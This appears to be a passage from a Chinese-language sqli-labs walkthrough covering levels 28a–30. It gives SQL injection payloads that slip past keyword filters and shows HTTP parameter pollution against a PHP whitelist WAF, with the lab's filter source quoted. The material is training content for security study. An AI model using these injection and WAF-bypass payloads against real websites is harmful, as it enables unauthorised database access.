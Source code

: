 
## Less-28a

翻阅源码，过滤减少了。测试思路同上题

```sql
?id=0')uNIounion%0aselectn%a0select%0a1,2,('3
```


## Less-29 HTTP参数污染

我去，这关有意思，先看看源码

把url参数id的值赋给$query_string，然后以&分割成数组，然后取id的值

```php
// 把url参数id的值赋给$query_string，然后以&分割成数组，然后取id的值
function java_implimentation($query_string)
{
	$q_s = $query_string;
	$qs_array= explode("&",$q_s);
	foreach($qs_array as $key => $value)
	{
		$val=substr($value,0,2);
		if($val=="id")
		{
			$id_value=substr($value,3,30); 
			return $id_value;
			echo "<br>";
			break;
		}
	}
}
```

测试：尝试传入`?id=1&id=2`，可以发现页面显示的用户名不再是`Dumb`，而实`Angelina`

这关 login.php 设置了一个白名单WAF，只允许数字，不过获取匹配的参数 $_SERVER['QUERY_STRING'] 然后匹配到第一个 id 就 break 掉了。但 PHP 通过 $_GET['id'] 获取是覆盖关系，即同时存在多个URL参数时，只获取最后一个。但WAF判断的是第1个，所以就可以绕过了。这种方式也叫HPP，HTTP 参数污染

```sql
?id=1&id=0'union select 1,2,3%23
```

![58](/medias/sqli-labs/58.png)

## Less-30

同上关有些不同，需要在新的参数`id`里进行原sql语句的闭合测试

这题是双引号类型

```sql
?id=1&id=0"union select 1,2,3%23
```
